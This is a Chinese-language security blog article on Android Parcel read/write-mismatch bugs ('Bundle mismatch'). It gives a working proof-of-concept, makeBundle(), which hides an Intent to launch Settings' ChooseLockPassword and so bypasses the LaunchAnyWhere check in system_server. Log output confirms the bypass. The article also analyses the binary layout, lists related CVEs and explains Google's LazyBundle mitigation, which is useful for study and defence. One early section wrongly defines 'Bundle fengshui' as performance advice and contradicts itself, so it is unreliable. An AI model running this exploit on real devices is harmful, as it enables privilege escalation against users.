


# Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞

## 前言


2023年知名互联网厂商竟持续挖掘新的安卓`OEM`相关漏洞，在其公开发布的`App`中实现对目前市场主流手机系统的漏洞攻击。

以下描述，均来自此刻正发生在数以亿计手机上的真实案例。相关敏感信息已经过处理。

该互联网厂商在自家看似无害的 `App` 里，使用的第一个黑客技术手段，是利用一个近年来看似默默无闻、但实际攻击效果非常好的 `Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞`，实现 `0day/Nday 攻击`，从而绕过系统校验，获取系统级 `StartAnyWhere` 能力。


阅读这篇文章之前先了解一下`launchAnyWhere`漏洞和`Bundle数据结构和反序列化`:

[launchAnyWhere: Activity组件权限绕过漏洞解析](https://ishare.58corp.com/articleDetail?id=111278)
[Bundle数据结构和反序列化分析](https://ishare.58corp.com/articleDetail?id=111295)


## 什么是Bundle风水

`Bundle` 风水（`Bundle Fengshui`）是指在 `Android` 应用开发中，使用 `Bundle` 类传递数据时，需要注意一些优化技巧，以避免在传递数据过程中出现性能问题。

由于 `Bundle` 类是基于键值对存储数据的，而且支持多种数据类型的传递，因此在使用时需要注意以下几个方面：

避免在传递大量数据时使用 `Bundle`：当需要传递大量数据时，应该考虑使用其他更高效的传递方式，例如序列化、`Parcelable` 等。

尽量避免使用序列化和 `Parcelable`：虽然序列化和 `Parcelable` 可以用于传递复杂对象，但是它们的性能较低，应该尽量避免使用。

使用合适的数据类型：在使用 `Bundle` 传递数据时，应该根据实际需要使用合适的数据类型，例如使用 `getInt()` 而不是 `getLong()` 等。

合理使用 `Bundle` 的 `API`：`Bundle` 类提供了多个 `API`，例如 `putXXX()`、`getXXX()` 等，应该根据实际需要使用合适的 `API`。

避免使用 `Bundle` 传递大量数据：`Bundle` 类在传递大量数据时可能会出现性能问题，应该尽量避免使用。

总之，`Bundle` 风水是指在使用 `Bundle` 类传递数据时，需要注意一些优化技巧，以避免在传递数据过程中出现性能问题。


相关文章：[Introducing Android's Safer Parcel - Black Hat](https://i.blackhat.com/EU-22/Wednesday-Briefings/EU-22-Ke-Android-Parcels-Introducing-Android-Safer-Parcel.pdf) 


在开发人员操作`Parcel`对象并尝试从其中读取或向其中写入数据时，可能会出现一种错误：开发人员由于种种原因，可能是太粗心、没考虑好边界条件或对某些`Java`容器类型的理解有误，而导致在处理一个相同的`Parcelable`对象时，从`Parcel`中读取数据的字节数，和向其中写入数据的字节数不相等，而造成了错位现象，这便是`Parcelable`反序列化漏洞，例如如下的代码：

```java
public class MyClass implements Parcelable {
    int a;
    int b;

    protected MyClass(Parcel in) {
        a = in.readInt();
    }

    @Override
    public void writeToParcel(Parcel dest, int flags) {
        dest.writeInt(a);
        dest.writeInt(b);
    }

    @Override
    public int describeContents() {
        return 0;
    }

    public static final Creator<MyClass> CREATOR = new Creator<MyClass>() {
        @Override
        public MyClass createFromParcel(Parcel in) {
            return new MyClass(in);
        }

        @Override
        public MyClass[] newArray(int size) {
            return new MyClass[size];
        }
    };
}
```

很明显，这位开发人员中读取的时候只读取了4个字节，而写入时候却写入了8个字节！这看起来非常愚蠢，似乎不会有开发人员写出这种漏洞，然而在实际的代码中可能存在比这个例子复杂得多的情况，以至于连Google的开发人员都会犯错，甚至有些漏洞我在第一次看到代码时也没有发现其中的问题，而是用了几小时时间才恍然大悟，发现其中存在一个隐蔽的读写不匹配问题。

## LaunchAnyWhere漏洞代码review


[launchAnyWhere: Activity组件权限绕过漏洞解析](https://ishare.58corp.com/articleDetail?id=111278)在这篇文章中我们只大概描述这个问题，它是在`AccountManagerServic`e的`AddAccount`流程中，由`system_server`接收到`Bundle`参数后没有进行检查，直接让`Settings`取出里面的`KEY_INTENT（intent）`字段并启动界面，这是一个典型的`LaunchAnyWhere`漏洞，那么`Google`当时的修复也很简单，选择了中`system_server`中收到`Bundle`之后尝试取出其中的`Intent`，如果存在这个字段则检查`Intent`所解析出的最终调用组件是否属于原始调用者，这样就避免了调用者以`Settings`的身份启动任意`Activity`的问题。

```java
//android-28/com/android/server/accounts/AccountManagerService.java
public class AccountManagerService
        extends IAccountManager.Stub
        implements RegisteredServicesCacheListener<AuthenticatorDescription> {
    /****部分代码省略****/
    /** Session that will encrypt the KEY_ACCOUNT_SESSION_BUNDLE in result. */
    private abstract class StartAccountSession extends Session {
        /****部分代码省略****/

        @Override
        public void onResult(Bundle result) {
            Bundle.setDefusable(result, true);
            mNumResults++;
            Intent intent = null;
            //尝试从Bundle对象中取出KEY_INTENT
            if (result != null
                    && (intent = result.getParcelable(AccountManager.KEY_INTENT)) != null) {
                //对KEY_INTENT进行校验
                if (!checkKeyIntent(
                        Binder.getCallingUid(),
                        intent)) {
                    onError(AccountManager.ERROR_CODE_INVALID_RESPONSE,
                            "invalid intent in bundle returned");
                    return;
                }
            }
            /****部分代码省略****/
            sendResponse(response, result);
        }
    }

    private void sendResponse(IAccountManagerResponse response, Bundle result) {
        try {
            response.onResult(result);
        } catch (RemoteException e) {
            // if the caller is dead then there is no one to care about remote
            // exceptions
            if (Log.isLoggable(TAG, Log.VERBOSE)) {
                Log.v(TAG, "failure while notifying response", e);
            }
        }
    }

    private abstract class Session extends IAccountAuthenticatorResponse.Stub
            implements IBinder.DeathRecipient, ServiceConnection {
        /**
         * Checks Intents, supplied via KEY_INTENT, to make sure that they don't violate our
         * security policy.
         *
         * In particular we want to make sure that the Authenticator doesn't try to trick users
         * into launching arbitrary intents on the device via by tricking to click authenticator
         * supplied entries in the system Settings app.
         */
        protected boolean checkKeyIntent(int authUid, Intent intent) {
            intent.setFlags(intent.getFlags() & ~(Intent.FLAG_GRANT_READ_URI_PERMISSION
                    | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                    | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                    | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION));
            long bid = Binder.clearCallingIdentity();
            try {
                PackageManager pm = mContext.getPackageManager();
                //解析出Intent最终调用的Activity
                ResolveInfo resolveInfo = pm.resolveActivityAsUser(intent, 0, mAccounts.userId);
                if (resolveInfo == null) {
                    return false;
                }
                ActivityInfo targetActivityInfo = resolveInfo.activityInfo;
                int targetUid = targetActivityInfo.applicationInfo.uid;
                PackageManagerInternal pmi = LocalServices.getService(PackageManagerInternal.class);
                // 判断是否是导出的System Activity或Activity所属应用是否和调用者同签名，满足其中之一则允许调用
                if (!isExportedSystemActivity(targetActivityInfo)
                        && !pmi.hasSignatureCapability(
                                targetUid, authUid,
                                PackageParser.SigningDetails.CertCapabilities.AUTH)) {
                    String pkgName = targetActivityInfo.packageName;
                    String activityName = targetActivityInfo.name;
                    String tmpl = "KEY_INTENT resolved to an Activity (%s) in a package (%s) that "
                            + "does not share a signature with the supplying authenticator (%s).";
                    Log.e(TAG, String.format(tmpl, activityName, pkgName, mAccountType));
                    return false;
                }
                return true;
            } finally {
                Binder.restoreCallingIdentity(bid);
            }
        }
    }
}
```

`Settings`在收到`Intent`之后调用`startActivityForResultAsUser`进行发送:

[http://androidxref.com/4.4_r1/xref/packages/apps/Settings/src/com/android/settings/accounts/AddAccountSettings.java](http://androidxref.com/4.4_r1/xref/packages/apps/Settings/src/com/android/settings/accounts/AddAccountSettings.java)

```java
public class AddAccountSettings extends Activity {
    /****部分代码省略****/
    private final AccountManagerCallback<Bundle> mCallback = new AccountManagerCallback<Bundle>() {
        @Override
        public void run(AccountManagerFuture<Bundle> future) {
            boolean done = true;
            try {
                Bundle bundle = future.getResult();
                //bundle.keySet();
                //获得KEY_INTENT
                Intent intent = (Intent) bundle.get(AccountManager.KEY_INTENT);
                if (intent != null) {
                    done = false;
                    Bundle addAccountOptions = new Bundle();
                    addAccountOptions.putParcelable(KEY_CALLER_IDENTITY, mPendingIntent);
                    addAccountOptions.putBoolean(EXTRA_HAS_MULTIPLE_USERS,
                            Utils.hasMultipleUsers(AddAccountSettings.this));
                    addAccountOptions.putParcelable(EXTRA_USER, mUserHandle);
                    intent.putExtras(addAccountOptions);
                    //启动KEY_INTENT代表的Activity
                    startActivityForResultAsUser(intent, ADD_ACCOUNT_REQUEST, mUserHandle);
                } else {
                    setResult(RESULT_OK);
                    if (mPendingIntent != null) {
                        mPendingIntent.cancel();
                        mPendingIntent = null;
                    }
                }
                if (Log.isLoggable(TAG, Log.VERBOSE)) Log.v(TAG, "account added: " + bundle);
            } catch (OperationCanceledException e) {
                if (Log.isLoggable(TAG, Log.VERBOSE)) Log.v(TAG, "addAccount was canceled");
            } catch (IOException e) {
                if (Log.isLoggable(TAG, Log.VERBOSE)) Log.v(TAG, "addAccount failed: " + e);
            } catch (AuthenticatorException e) {
                if (Log.isLoggable(TAG, Log.VERBOSE)) Log.v(TAG, "addAccount failed: " + e);
            } finally {
                if (done) {
                    finish();
                }
            }
        }
    };
}
```

这个补丁在当时是没什么问题，但是等到2017年，有海外的研究人员在一份恶意样本中发现，可以利用`Parcelable`反序列化绕过这个补丁，由于Google的补丁是在`system_server`中检查`Intent`，并且又通过`AIDL`传给`Settings`之后启动界面，这其中跨越了进程边界，也就涉及到一次序列化和反序列化的过程，那么我们如果通过`Parcelable反序列化漏洞的字节错位`，通过精确的布局，使得`system_server`在检查`Intent`时找不到这个`Intent`，而在错位后`Settings`却刚好可以找到，这样就可以实现补丁的绕过并再次实现`LaunchAnyWhere`，研究人员将发现的这种漏洞利用方式命名为`Bundle mismatch`。

## Bundle mismatch，如何利用Parcelable反序列化漏洞

了解了`Android`框架对`Bundle`类型的处理，现在我们需要关注如何开发一个`Bundle mismatch`利用，我们依旧以上面的漏洞为例，再回顾一下我们的示例代码：

```java
public class MyClass implements Parcelable {
    int a;
    int b;

    protected MyClass(Parcel in) {
        a = in.readInt();
    }

    @Override
    public void writeToParcel(Parcel dest, int flags) {
        dest.writeInt(a);
        dest.writeInt(b);
    }

    @Override
    public int describeContents() {
        return 0;
    }

    public static final Creator<MyClass> CREATOR = new Creator<MyClass>() {
        @Override
        public MyClass createFromParcel(Parcel in) {
            return new MyClass(in);
        }

        @Override
        public MyClass[] newArray(int size) {
            return new MyClass[size];
        }
    };
}
```

在本例中读取是4个字节，而写入是8个字节，那么我们考虑后面4个字节是整个利用的核心，按照上文中描述的Bundle格式解析逻辑，当序列化时多写入一个0之后，下一次读完了4字节之后，这个0会何去何从呢？

答案是他必定会作为下一个`Bundle key`的`key string`存在，而我们知道`readString`的开头是先读取一个`int`作为字符串的长度。所以问题就有了答案，我们后面这个0就会被认为是一个字符串的长度，并且是一个0长度的字符串，注意不是`null`字符串，因为`null`字符串的长度字段为`-1`。

现在我们知道，除了前面`this.b`多写入的0之外，下一个4字节会作为`padding`存在，那么后面我们如何继续布局呢？这里面需要再填充一个类型字段，我们这里选择的是`VAL_BYTEARRAY`，也就是13，后续还需要布局字节数组的长度和内容，这个就要结合错位前的逻辑进行布局了，经过精心调试之后，我给出的答案如下（不包含错位写入的0）：

## 构造恶意的Bundle

```java
public Bundle makeBundle() {
    Bundle bundle = new Bundle();
    Parcel bndlData = Parcel.obtain();
    Parcel exp = Parcel.obtain();
    exp.writeInt(3); // bundle key count
    //byte[] key1Name = {0x00};//第一个元素的key我们使用\x00，其hashcode为0，我们只要布局后续key的hashcode都大于0即可
    //String mismatch = new String(key1Name);
    String mismatch = "mismatch";//后续元素的hashcode必须大于mismatch的hashcode
    exp.writeString(mismatch);
    exp.writeInt(4); // VAL_PARCELABLE
    exp.writeString("com.tzx.launchanywhere.MyClass"); // class name
    // 这里按照错位前的逻辑开发，错位后在这个4字节之后会多出一个4字节的0
    exp.writeInt(0);
    /**********************恶意构造的内容start*********************************/
    byte[] key2key = {13, 0, 8};
    String key2Name = new String(key2key);
    // 在错位之后，多出的0作为了新的key的字符串长度，并且writeString带着的那个长度=3会正常填充上padding那个位置。使得后续读取的类型为VAL_BYTEARRAY（13），前面的0用于补上4字节的高位。而8则是字节数组的长度了。
    //简单来说就是13和0这俩个字符的4个字节构成13这个数字，字符8和终止符这两个字符构成8这个数字。
    exp.writeString(key2Name);//整体作为长度为3的key string
    // 在错位之后，这里的13和下面的值是作为8字节的字节数组的一部分
    exp.writeInt(13);//这里的13则也是巧妙地被解析成了VAL_BYTEARRAY（13）
    int intentSizeOffset = exp.dataPosition();
    // 在错位之后上面的13和这里的值就会作为8字节的字节数组，后续就会正常解析出intent元素了，就成功绕过补丁
    int evilObject = -1;//这里应为字节数组的长度，我们填写为intent元素所占用的长度，即可将intent元素巧妙地隐藏到字节数组中(此值被Intent长度覆盖)
    exp.writeInt(evilObject);
    int intentStartOffset = exp.dataPosition();
    /**********************恶意构造的内容end*********************************/
    /**********************intent内容start*********************************/
    exp.writeString(AccountManager.KEY_INTENT);
    exp.writeInt(4);// VAL_PARCELABLE
    //可以直接构造Intent放在exp中，此处为了显示构造过程，将Intent字段逐一放入exp中
    //Intent intent = new Intent(Intent.ACTION_RUN);
    //intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    //intent.setComponent(new ComponentName("com.android.settings", "com.android.settings.password.ChooseLockPassword"));
    //exp.writeParcelable(intent, 0);
    exp.writeString("android.content.Intent");// name of Class Loader
    exp.writeString(Intent.ACTION_RUN); // Intent Action
    Uri.writeToParcel(exp, null); // Uri is null
    exp.writeString(null); // mType is null
    //exp.writeString(null); // mIdentifier is null android28没有该字段
    exp.writeInt(Intent.FLAG_ACTIVITY_NEW_TASK); // Flags
    exp.writeString(null); // mPackage is null
    exp.writeString("com.android.settings");
    exp.writeString("com.android.settings.password.ChooseLockPassword");
    exp.writeInt(0); //mSourceBounds = null
    exp.writeInt(0); // mCategories = null
    exp.writeInt(0); // mSelector = null
    exp.writeInt(0); // mClipData = null
    exp.writeInt(-2); // mContentUserHint
    exp.writeBundle(null);
    /**********************intent内容end*********************************/

    int intentEndOffset = exp.dataPosition();
    //将指针设置在intent数据之前，然后写入intent的大小
    exp.setDataPosition(intentSizeOffset);
    int intentSize = intentEndOffset - intentStartOffset;
    exp.writeInt(intentSize);
    Log.d("tanzhenxing33", "intentSize=" + intentSize);
    //写完之后将指针重置回原来的位置
    exp.setDataPosition(intentEndOffset);

    // 最后一个元素在错位之前会被当成最后一个元素，错位之后就会被忽略，因为前面已经读取的元素数已经足够
    String key3Name = "Padding-Key";
    //String key3Name = "padding";//hashcode排序失败
    exp.writeString(key3Name);
    exp.writeInt(-1);//VAL_NULL

    int length = exp.dataSize();
    bndlData.writeInt(length);
    bndlData.writeInt(0x4c444E42);//魔数
    bndlData.appendFrom(exp, 0, length);//写入数据总长度
    bndlData.setDataPosition(0);
    Log.d("tanzhenxing33", "length=" + length);
    bundle.readFromParcel(bndlData);
    return bundle;
}
```

我们将以上代码的到的`Bundle`进行一次序列化和反序列化查看里面的`key`和`Value`类型：
`main`:是刚构造出`Bundle`的`Activity`;
`TestBundleMismatchResultActivity`:是进行一次内核传输的到达的第二个`Activity`;

```log
D/tanzhenxing33: intentSize=324
D/tanzhenxing33: length=480
D/tanzhenxing33: file =/storage/emulated/0/Android/data/com.tzx.launchanywhere/cache/obj.pcl
D/tanzhenxing33: MyClass:Parcel:100
D/tanzhenxing33: main key = mismatch com.tzx.launchanywhere.MyClass
D/tanzhenxing33: main key = � [B
D/tanzhenxing33: main key = Padding-Key NULL
D/tanzhenxing33: MyClass:writeToParcel
D/tanzhenxing33: onCreate:TestBundleMismatchResultActivity
D/tanzhenxing33: MyClass:Parcel:100
D/tanzhenxing33: TestBundleMismatchResultActivity key = mismatch com.tzx.launchanywhere.MyClass
D/tanzhenxing33: TestBundleMismatchResultActivity key = intent android.content.Intent
D/tanzhenxing33: TestBundleMismatchResultActivity key =  [B
D/tanzhenxing33: result != null,Intent { act=android.intent.action.RUN flg=0x10000000 cmp=com.android.settings/.password.ChooseLockPassword }
```

可以看到刚构造出来的`Bunlde`：
- `mismatch`对应的`key`，其`Value`为`com.tzx.launchanywhere. MyClass `类型；
- `� `对应的`key`，其`Value`为`Byte`数组；
- `Padding-Key`对应的`key`，其`Value`为`NULL`；

进过一次序列化和反序列化的`Bundle`:
- `mismatch`对应的`key`，其`Value`为`com.tzx.launchanywhere. MyClass `类型；
- `intent`对应的`key`，其`Value`为`android.content.Intent`类型；
- 空字符串对应的`key`，其`Value`为`Byte`数组；


## Bundle二进制数据分析

其实以上描述的内容，我们通过Bundle二进制数据的变化更加容易理解。

在看二进制数据之前，先说了解一下**String的4字节对齐**

### String的4字节对齐

> 在计算机中，由于硬件存储结构等原因，许多数据类型的内存布局都需要进行对齐，这也包括字符串类型。
> 在字符串中，通常是以字节为单位进行存储的，为了实现最优的内存访问性能，通常需要将字符串的每个字符存储到 4 字节的内存地址上。
> 因此，当字符串的长度不是 4 的倍数时，会在字符串的结尾添加额外的空字节来进行补齐，以满足 4 字节对齐的要求。例如，如果字符串的长度为 5，则会在其结尾添加一个空字节，使其长度变为 8，这样就可以满足 4 字节对齐的要求。
> 需要注意的是，这种对齐操作会对内存使用量产生一定的影响，因为对于很多短字符串而言，它们实际使用的内存可能会比其长度更长。因此，在处理大量字符串数据时，需要注意内存的使用情况，避免出现内存不足等问题。

### Parcel中的数据写入文件

我们将`Parcel`中的数据写入文件进行查看：

```java
private void writeByte(Parcel bndlData) {
    try {
        byte[] raw = bndlData.marshall();
        File file = new File(getExternalCacheDir(), "obj.pcl");
        if (file.exists()) {
            file.delete();
        } else {
            file.createNewFile();
        }
        FileOutputStream fos = new FileOutputStream(file.getAbsolutePath());
        fos.write(raw);
        fos.close();
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

### 查看二进制文件

写出的文件是一个二进制文件，我们可以通过`od`命令查看：
```shell
od -tx1 obj.pcl
```

也可以通过`hexfiend`工具查看，下载链接为[https://hexfiend.com/](https://hexfiend.com/)。

或者直接通过`vs cdoe`安装`hex`相关插件查看。


#### 数据分析结果

> 构造的恶意`Bundle`数据分析结果



> 构造的恶意`Bundle`经过一次序列化和反序列化的数据分析



对比第一张`Bundle`数据分析图，我们只需要关注红框中的数据分析结果即可：

1. 经过一次序列化`MyClass`多写了一个`int`的0；
2. 这个0会被作为第二个`key`的长度；
3. 之前`writeString`的终止符和字节对齐的4个字节，会被作为长度为`0`的`key`的名称；
4. 之前写入的`{13, 0, 8}`的前4个字节会作为长度为`0`的`key`的数据类型为（`VAL_BYTEARRAY`=13），后面的8和字节对齐的4个字节作为`ByteArray`的长度，其值等于8；
5. 之前写入的(`VAL_BYTEARRAY`=13)和`Intent`的长度这8个字节作为长度为`0`的`key`的`Value`；
6. 接下来读取`key`的长度为6，`key`的名称为`intent`;
7. 最后一个元素在错位之后就会被忽略，因为前面已经读取的元素数已经足够;

## 漏洞修复

上述漏洞的修复似乎很直观，只需要把 `MyClass` 类中不匹配的读写修复就行了。但实际上这类漏洞并不是个例，历史上由于代码编写人员的粗心大意，曾经出现过许多因为读写不匹配导致的提权漏洞，包括但不限于:

```
CVE-2017-0806 GateKeeperResponse
CVE-2017-0664 AccessibilityNodelnfo
CVE-2017-13288 PeriodicAdvertisingReport
CVE-2017-13289 ParcelableRttResults
CVE-2017-13286 OutputConfiguration
CVE-2017-13287 VerifyCredentialResponse
CVE-2017-13310 ViewPager’s SavedState
CVE-2017-13315 DcParamObject
CVE-2017-13312 ParcelableCasData
CVE-2017-13311 ProcessStats
CVE-2018-9431 OSUInfo
CVE-2018-9471 NanoAppFilter
CVE-2018-9474 MediaPlayerTrackInfo
CVE-2018-9522 StatsLogEventWrapper
CVE-2018-9523 Parcel.wnteMapInternal0
CVE-2021-0748 ParsingPackagelmpl
CVE-2021-0928 OutputConfiguration
CVE-2021-0685 ParsedIntentInfol
CVE-2021-0921 ParsingPackagelmpl
CVE-2021-0970 GpsNavigationMessage
CVE-2021-39676 AndroidFuture
CVE-2022-20135 GateKeeperResponse
…
```

另一个修复思路是修复 `TOCTOU` 漏洞本身，即确保检查和使用的反序列化对象是相同的，但这种修复方案也是治标不治本，同样可能会被攻击者找到其他的攻击路径并绕过。

因此，为了彻底解决这类层出不穷的问题，`Google` 提出了一种简单粗暴的缓释方案，即直接从 `Bundle` 类中下手。虽然 `Bundle` 本身是 `ArrayMap` 结构，但在反序列化时候即便只需要获取其中一个 `key`，也需要把整个 `Bundle` 反序列化一遍。这其中的主要原因在于序列化数据中每个元素的大小是不固定的，且由元素的类型决定，如果不解析完前面的所有数据，就不知道目标元素在什么地方。

为此在 `2021` 年左右，`AOSP` 中针对 `Bundle `提交了一个称为 `LazyBundle(9ca6a5)` 的 `patch`。其主要思想为针对一些长度不固定的自定义类型，比如 `Parcelable`、`Serializable`、`List` 等结构或容器，会在序列化时将对应数据的大小添加到头部。这样在反序列化时遇到这些类型的数据，可以仅通过检查头部去选择性跳过这些元素的解析，而此时 `sMap` 中对应元素的值会设置为 `LazyValue`，在实际用到这些值的时候再去对特定数据进行反序列化。

这个 `patch` 可以在一定程度上缓释针对 `Bundle 风水`的攻击，而且在提升系统健壮性也有所助益，因为即便对于损坏的 `Parcel` 数据，如果接收方没有使用到对应的字段，就可以避免异常的发生。对于之前的 `Bundle` 解析策略，哪怕只调用了 `size` 方法，也会触发所有元素的解析从而导致异常。 在这个 `patch` 中 `unparcel` 还增加了一个 `boolean` 参数 `itemwise`，如果为 `true` 则按照传统方式解析每个元素，否则就会跳过 `LazyValue` 的解析。

有兴趣的可以阅读该`patch`对应提交记录，[LazyBundle(9ca6a5)](https://cs.android.com/android/_/android/platform/frameworks/base/+/9ca6a5e21a1987fd3800a899c1384b22d23b6dee)

Android13源码中也可以看到对应的修改：[android13中的BaseBundle.java](http://aospxref.com/android-13.0.0_r3/xref/frameworks/base/core/java/android/os/BaseBundle.java)

```java
//android-33/android/os/Parcel.java
public final class Parcel {
  /****部分代码省略****/
  @Nullable
  public Object readLazyValue(@Nullable ClassLoader loader) {
      int start = dataPosition();
      int type = readInt();
      if (isLengthPrefixed(type)) {
          int objectLength = readInt();
          int end = MathUtils.addOrThrow(dataPosition(), objectLength);
          int valueLength = end - start;
          setDataPosition(end);
          return new LazyValue(this, start, valueLength, type, loader);
      } else {
          return readValue(type, loader, /* clazz */ null);
      }
  }
  public final void writeValue(@Nullable Object v) {
    if (v instanceof LazyValue) {
        LazyValue value = (LazyValue) v;
        value.writeToParcel(this);
        return;
    }
    int type = getValueType(v);
    writeInt(type);
    if (isLengthPrefixed(type)) {
        // Length
        int length = dataPosition();
        writeInt(-1); // Placeholder
        // Object
        int start = dataPosition();
        writeValue(type, v);
        int end = dataPosition();
        // Backpatch length
        setDataPosition(length);
        writeInt(end - start);
        setDataPosition(end);
    } else {
        writeValue(type, v);
    }
  }
  private boolean isLengthPrefixed(int type) {
    // In general, we want custom types and containers of custom types to be length-prefixed,
    // this allows clients (eg. Bundle) to skip their content during deserialization. The
    // exception to this is Bundle, since Bundle is already length-prefixed and already copies
    // the correspondent section of the parcel internally.
    switch (type) {
        case VAL_MAP:
        case VAL_PARCELABLE:
        case VAL_LIST:
        case VAL_SPARSEARRAY:
        case VAL_PARCELABLEARRAY:
        case VAL_OBJECTARRAY:
        case VAL_SERIALIZABLE:
            return true;
        default:
            return false;
    }
  }
}
```

[LaunchAnyWhere代码地址](https://github.com/stven0king/launchanywhere.git)


文章到这里就全部讲述完啦，若有其他需要交流的可以留言哦~！

参考文章：

[再谈Parcelable反序列化漏洞和Bundle mismatch](https://wrlus.com/android-security/bundle-mismatch/)
[Bundle风水——Android序列化与反序列化不匹配漏洞详解](https://xz.aliyun.com/t/2364)
[Android 反序列化漏洞攻防史话](https://evilpan.com/2023/02/18/parcel-bugs/#%E8%87%AA%E4%BF%AE%E6%94%B9-bundle)